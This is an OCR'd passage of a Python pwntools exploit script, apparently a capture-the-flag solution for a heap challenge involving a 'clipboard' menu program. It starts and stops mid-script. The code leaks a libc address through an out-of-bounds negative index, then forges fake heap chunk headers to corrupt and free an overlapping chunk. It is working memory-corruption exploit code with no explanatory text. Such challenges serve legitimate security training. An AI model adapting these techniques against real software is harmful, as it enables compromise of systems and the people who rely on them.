 ``` python
    else:
        return s.recvuntil(b"\n> ")

def del_clipboard(s, index):
    s.sendline(b"2")
    s.recvuntil(b"> ")
    s.sendline(str(index).encode())
    return s.recvuntil(b"\n> ")

def view_clipboard(s, index):
    s.sendline(b"3")
    s.recvuntil(b"> ")
    s.sendline(str(index).encode())
    return s.recvuntil(b"\n> ")

def exit_clipboard(s):
    s.sendline(b"4")
    return

def main(port, debug):
    if(port):
        s = remote("0.0.0.0", port)
        if debug:
            pid = os.popen(f"sudo docker top {CONTAINER} -eo pid,comm | grep {BINARY} | awk '{{print $1}}'").read()
            gdb.attach(int(pid), gs, exe=BINARY)
    else:
        s = process(BINARY, env={"LD_PRELOAD" : LIBRARY})
        if debug:
            gdb.attach(s, gs)
    elf = ELF(BINARY)
    lib = ELF(LIBRARY)
    heap = int(s.recvuntil(b"> ").split(b'\n')[0].split(b': ')[1], 16) & 0xfffffffffffff000
    log.info(f"heap : {hex(heap)}")
    
    # leak libc
    add_clipboard(s, 1, 0x10, b"A" * 0x10)
    add_clipboard(s, 9, 0x10, b"B" * 0x10)
    r = view_clipboard(s, -4)
    libc = u64(r[8:16]) - 0x21b803
    stdout_fp = r[0:0xe0]
    log.info(f"libc : {hex(libc)}")

    # clean clipboards
    del_clipboard(s, 1)
    del_clipboard(s, 9)

    # align last byte
    add_clipboard(s, -8, 0xc0, b"C" * 0x20)

    # make fake chunk header
    payload = b"D" * 0x10
    payload += p64(0)
    payload += p64(0x101)
    add_clipboard(s, 0, 0x20, payload)

    # allocate XXXXXXXXX410, XXXXXXXXX440, XXXXXXXXX470 chunks
    add_clipboard(s, 9, 0x20, b"E" * 0x30)
    add_clipboard(s, 1, 0x20, b"F" * 0x20)
    add_clipboard(s, 2, 0x20, b"G" * 0x20)
    
    # overwrite 410 -> 400 and free fake chunk (size 0x100)
    del_clipboard(s, -8)
```